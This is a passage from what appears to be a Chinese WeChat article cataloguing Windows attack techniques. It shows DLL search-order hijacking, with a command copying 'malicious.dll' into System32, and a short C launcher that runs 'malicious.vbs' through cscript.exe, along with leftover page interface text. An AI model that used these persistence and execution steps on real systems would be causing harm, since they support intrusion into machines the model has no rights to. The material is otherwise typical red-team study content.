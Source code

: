  **34\. DLL Search Order Hijacking**

  * 

    
    
     copy malicious.dll C:\Windows\System32\

 **35\. 恶意脚本执行**

  * 

    
    
     cscript.exe malicious.vbs

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    STARTUPINFO si;    PROCESS_INFORMATION pi;  
        ZeroMemory(&si, sizeof(si));    si.cb = sizeof(si);    ZeroMemory(&pi, sizeof(pi));  
        // Path to the malicious VBS script    char scriptPath[] = "C:\\path\\to\\malicious.vbs";  
        // Construct the command to execute the VBS script using cscript.exe    char command[256];    snprintf(command, sizeof(command), "cscript.exe %s", scriptPath);  
        // Execute the VBS script    if (!CreateProcess(NULL, command, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {        printf("Failed to execute script. Error: %d\n", GetLastError());        return 1;    }  
        // Wait for the script to complete    WaitForSingleObject(pi.hProcess, INFINITE);  
        // Cleanup    CloseHandle(pi.hProcess);    CloseHandle(pi.hThread);  
        printf("Script executed successfully.\n");    return 0;}

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

